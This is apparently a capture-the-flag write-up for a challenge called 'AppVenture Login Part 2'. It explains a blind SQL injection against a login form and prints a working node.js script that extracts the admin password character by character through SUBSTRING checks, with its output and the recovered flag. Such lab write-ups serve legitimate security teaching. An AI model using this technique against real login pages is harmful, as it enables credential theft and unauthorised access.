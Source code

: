```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## AppVenture Login Part 2

> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require('form-data');

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split('');
let password = [];

async function verify(i, c) {
    const form = new FormData();
    form.append('username', `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`);
    const res = await fetch('http://35.240.143.82:4208/login', {method: 'POST', body: form})
    const text = await res.text();
    return text !== "Login failed"
}

async function step(i) {
    for (let c of chars) {
        if (await verify(i, c)) return c;
    }
    return null;
}

async function brute_force() {
    let i = 0;
    while (true) {
        password[i] = await step(i);
        console.log(password.join(''));
        if (!password[i]) break;
        i++;
    }
    console.log(password.join(''));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained
